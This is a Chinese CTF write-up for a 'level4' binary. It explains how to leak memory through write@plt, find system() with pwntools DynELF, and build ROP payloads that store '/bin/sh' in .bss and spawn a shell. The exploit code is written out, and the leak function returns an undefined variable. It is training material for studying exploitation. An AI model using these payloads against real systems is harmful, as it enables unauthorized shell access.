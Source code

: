 
现在可以有两个方法
1. 通过泄露得到的__libc_start_main地址对照libc库，得到libc库版本，查到system函数的地址[好像此题，不可行]
2. 尝试直接泄露system地址

### 思路大致是：###

1.构造leak函数：

    def leak(address):
	    payload1 = "A" * 0x88 +'aaaa' + p32(write_plt) + p32(vuln_addr) + p32(1) + p32(address) + p32(4)
	    p.sendline(payload1)
	    leak_addr = p.recv(4)
	    log.info("leaking %#x => %s" % (address, (leak_addr or '').encode('hex')))
	    return data   
这段函数能从内存中address处dump出4字节数据，函数执行结束后会返回vulnerable_function函数重新执行再次利用漏洞。也就是说利用这个函数，我们可以dump出整个libc.

2.使用DynELF模块查找system函数地址：

    d = DynELF(leak,elf=ELF('./level4'))
	sys_addr = d.lookup('system','libc')

3.将‘/bin/sh’能保存到.bss段中，就可以执行system('/bin/sh')。通过ELF模块获取bss段的首地址，在bss的地址下write输入的'/bin/sh'**【bss_addr = elf.bss()得到bss地址或bss_addr = elf.symbols['__bss_start'] 】**

4.构造payload

> payload1 = 填充字符+read函数+read函数的返回地址(vuln_addr)+第一个参数（0）+第二个参数bss_addr+第三个参数（8）

这个payload可以将'/bin/sh'读取，保存到bss段

再构造一个payload：

> payload2 = 填充字符+system函数地址+'bbbb'+'/bin/sh'的地址(bss_addr)

调用system(/bin/sh')

### 另一种思路：使用gadgets ###

使用gadgets找到3个pop+1个ret来平衡堆栈，将read(0,bss_addr,8)的3个参数弹出栈，接着ret到system函数去执行。

> payload2 = "a" * 0x88 +'aaaa' + p32(read_plt) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8)+ p32(system_addr) + p32(vuln_addr) + p32(bss_addr)

pppr的值就是连续的3个pop+1个ret的level4程序内的地址，将ppr放在read_plt调用的后%ebp+4的位置，在read执行后就会返回到pppr执行3个pop，弹出"p32(0) + p32(bss_addr) + p32(8)"。再执行ret，将p32(system_addr)，pop到%eip中。从而调用system("/bin/sh")

![3pop1ret的gadgets](/assets/img/3pop1ret.jpg)

